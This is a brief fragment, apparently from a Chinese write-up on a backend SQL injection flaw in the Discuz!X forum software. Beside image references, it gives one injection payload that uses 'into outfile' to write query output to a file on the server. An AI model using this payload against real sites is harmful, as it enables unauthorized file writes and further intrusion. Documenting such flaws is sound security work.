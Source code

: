 ![](./resource/Discuz!X系列全版本后台Sql注入漏洞/media/rId27.png)

直接构造语句

    1' into outfile 'c:\\wamp64\\tmp\\1.txt'  -- a
